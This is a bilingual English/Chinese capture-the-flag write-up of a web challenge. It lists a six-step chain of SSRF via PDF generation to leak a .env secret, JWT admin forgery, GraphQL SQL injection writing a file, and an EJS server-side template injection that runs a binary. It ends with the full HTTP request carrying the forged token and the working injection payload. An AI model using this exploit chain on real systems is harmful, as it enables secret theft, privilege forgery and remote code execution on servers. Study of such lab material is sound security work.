 ### 

1. Generate a JWT token as a guest user.
    
    以访客用户身份生成 JWT 令牌。
    
2. Use SSRF via PDF generation to read system files and leak the `.env` file containing the secret used to sign the JWT tokens.
    
    通过 PDF 生成使用 SSRF 读取系统文件并泄露包含用于签署 JWT 令牌的秘密的 `.env` 文件。
    
3. Forge a JWT admin token to interact with admin functionality at the `/graphql` endpoint.
    
    伪造 JWT 管理令牌以与 `/graphql` 端点的管理功能进行交互。
    
4. Use SSRF to bypass the 127.0.0.1 restriction and interact with the `/graphql` endpoint.
    
    使用 SSRF 绕过 127.0.0.1 限制并与 `/graphql` 端点交互。
    
5. Exploit a GraphQL SQL injection to create a file in the system with a regex bypass.
    
    利用 GraphQL SQL 注入在系统中创建一个带有正则表达式绕过的文件。
    
6. Abuse arbitrary error template creation to exploit a Server-Side Template Injection (SSTI) to execute a binary that will read a flag located in the root directory.
    
    滥用任意错误模板创建来利用服务器端模板注入（SSTI）来执行将读取位于根目录中的标志的二进制文件。

POST /download?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3MTYzMjA2MDV9.X6hjojsuhpUzPJLS-zsJhgVQp4l2vfT4TklBH6KF4ko HTTP/1.1
Host: 94.237.59.197:32514
User-Agent: Mozilla/5.0 (X11; Linux x86_64; rv:109.0) Gecko/20100101 Firefox/115.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/avif,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate, br
Connection: close
Upgrade-Insecure-Requests: 1
Content-Type: application/x-www-form-urlencoded
Content-Length: 232

url=http://127.0.0.1:1337/graphql?token=eyJhbGciOiJIUzI1NiIsInR5cCI6IkpXVCJ9.eyJyb2xlIjoiYWRtaW4iLCJpYXQiOjE3MTYzMjA2MDV9.X6hjojsuhpUzPJLS-zsJhgVQp4l2vfT4TklBH6KF4ko%26query={getDataByName(name:"\n'UNION+ALL+SELECT+1,'<%-+global.process.mainModule.require(child_process).spawnSync(/readflag).stdout+%>',null,null+INTO+OUTFILE+'/app/views/errors/404.ejs'--+-"){id+name+department+isPresent}}

